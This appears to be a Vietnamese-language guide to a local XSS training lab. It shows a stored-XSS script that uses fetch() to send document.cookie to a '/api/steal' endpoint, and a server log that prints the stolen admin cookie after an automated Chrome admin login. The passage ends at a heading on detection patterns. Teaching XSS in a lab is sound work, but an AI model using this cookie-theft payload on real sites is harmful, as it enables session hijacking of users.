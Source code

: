 Trong comment box, nhập:

```html
<script>
    fetch("/api/steal?cookie=" + document.cookie);
</script>
```

### Bước 3: Xem Magic! ✨

**Server Console sẽ hiển thị**:

```
🚀 [CHROME-AUTO] Phát hiện comment mới, chuẩn bị mở Chrome...
🎯 [CHROME-AUTO] XSS payload detected! Sẽ mở Chrome sau 3 giây...
🌐 [CHROME-AUTO] Đang mở Chrome browser...
🚀 [CHROME-AUTO] Đang khởi động Chrome browser...
✅ [CHROME-AUTO] Chrome browser đã sẵn sàng
🔐 [CHROME-AUTO] Đang đăng nhập admin...
✅ [CHROME-AUTO] Admin đã đăng nhập thành công
👀 [CHROME-AUTO] Admin đang xem comments...
🎯 [CHROME-AUTO] XSS payload đã được trigger (nếu có)
✅ [CHROME-AUTO] Chrome automation hoàn thành!
📸 [CHROME-AUTO] Screenshot saved: xss-attack-1697451234567.png
🔒 [CHROME-AUTO] Browser đã đóng
```

**Browser sẽ**:

1. ✅ Tự động mở Chrome
2. ✅ Navigate đến `/lab/auth`
3. ✅ Điền username: `admin`, password: `admin123`
4. ✅ Click đăng nhập
5. ✅ Xem comments page
6. ✅ XSS payload execute thật
7. ✅ Cookie bị gửi đến `/api/steal`
8. ✅ Screenshot được lưu
9. ✅ Browser tự đóng sau 5 giây

### Bước 4: Xem Stolen Cookie

Check console của server hoặc xem trong bảng comments (entry `[HACKER-LOG]`):

```
🚨 STOLEN COOKIE RECEIVED:
Timestamp: 2025-10-16T...
Cookie: auth=admin:admin123
IP: ::1
User-Agent: Mozilla/5.0...
```

## 🔍 XSS Detection Patterns

Server sẽ phát hiện XSS payload khi comment chứa:
